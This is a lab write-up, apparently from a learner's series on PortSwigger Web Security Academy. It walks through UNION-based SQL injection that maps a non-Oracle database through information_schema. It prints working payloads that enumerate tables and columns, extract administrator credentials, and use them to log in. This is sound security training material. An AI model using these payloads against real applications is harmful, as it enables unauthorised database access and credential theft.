



# Lab 9: SQL Injection Attack — Listing the Database Contents on Non-Oracle Databases

**Platform:** PortSwigger Web Security Academy

## What's going on here

Every previous lab targeted something known in advance — a specific table, a specific version variable. This one starts from zero knowledge: no idea what tables exist, what they're called, or what columns they hold. The `information_schema` — a built-in metadata database every non-Oracle SQL engine ships with — is what makes mapping all of that possible from scratch.

## 🎯 Target

Discover the credentials table, find its username/password columns, and log in as `administrator`.

## The bypass

First, confirmed the column layout: two columns, both text-capable.

'+UNION+SELECT+'abc','def'--

**Step 1 — list every table in the database:**

'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--

Scanned the results for anything resembling a credentials table — something like `users_abcdef`, with a randomized suffix the lab appends to avoid guessable names.

**Step 2 — list that table's columns:**

'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--

Found the username and password columns among the results (again, randomized names like `username_abcdef` / `password_abcdef`).

**Step 3 — pull the actual credentials:**

'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--

Located `administrator`'s row, grabbed the password, and logged in with it.

## Result

Full database schema mapped from nothing, credentials extracted, logged in as `administrator`.

## Takeaway

`information_schema` is the map of the whole database — table names, column names, all of it — and it's readable via the exact same UNION technique used everywhere else in this path. Once injection works and column count/type are sorted, there's no part of a non-Oracle database that stays hidden by default.

---

Non-Oracle databases just gave up their entire schema. Oracle doesn't expose `information_schema` the same way, though — its metadata lives somewhere else entirely: **[Lab 10 — SQL Injection Attack, Listing the Database Contents on Oracle](lab-10-oracle-contents.md)**.

